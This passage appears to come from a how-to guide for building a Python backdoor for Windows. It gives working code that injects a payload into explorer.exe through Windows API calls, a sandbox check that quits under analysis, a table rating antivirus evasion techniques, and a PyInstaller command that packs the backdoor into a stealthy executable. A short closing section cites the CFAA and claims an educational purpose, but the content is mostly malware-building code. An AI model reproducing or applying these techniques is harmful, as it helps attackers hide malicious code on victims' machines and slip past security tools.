 #### **Process Injection**
Inject the backdoor into a legitimate process (e.g., `explorer.exe`) to hide its presence:
```python
import ctypes

def inject_into_process(pid, payload):
    h_process = ctypes.windll.kernel32.OpenProcess(0x001F0FFF, False, pid)
    remote_memory = ctypes.windll.kernel32.VirtualAllocEx(h_process, 0, len(payload), 0x3000, 0x40)
    ctypes.windll.kernel32.WriteProcessMemory(h_process, remote_memory, payload, len(payload), 0)
    ctypes.windll.kernel32.CreateRemoteThread(h_process, 0, 0, ctypes.windll.kernel32.GetProcAddress(ctypes.windll.kernel32.GetModuleHandleW("kernel32.dll"), "LoadLibraryW"), remote_memory, 0, 0)
```

#### **Anti-Analysis Checks**
Detect sandbox environments to delay execution:
```python
import os

def check_sandbox():
    if "SANDBOX" in os.environ.get("PATH", "") or "VIRTUALBOX" in os.environ.get("COMPUTERNAME", ""):
        exit()  # Exit if in a sandbox
```

| **Evasion Technique**     | **Purpose**                              | **Effectiveness**                     |
|---------------------------|------------------------------------------|---------------------------------------|
| Code Obfuscation          | Avoid signature-based detection          | Moderate (avoids basic AVs)           |
| Process Injection         | Hide malicious activity in memory        | High (bypasses file-based detection)  |
| Anti-Analysis Checks      | Evade automated sandbox analysis         | Moderate (requires advanced sandboxes)|

---

### **4. Conversion to Executable**
To avoid detection as a Python script, the backdoor is compiled into a standalone `.exe` using **PyInstaller**:
```bash
pyinstaller --onefile --noconsole backdoor.py
```
- **Advantages**:  
  - Hides the Python interpreter and source code.  
  - Mimics native Windows executables for better stealth.  

---

### **5. Ethical and Legal Considerations**
While this section outlines technical implementation, it is critical to emphasize that deploying such malware violates laws like the **Computer Fraud and Abuse Act (CFAA)**. The described techniques are intended for **educational purposes** and **defensive research** only. Always obtain explicit authorization before testing in any environment.

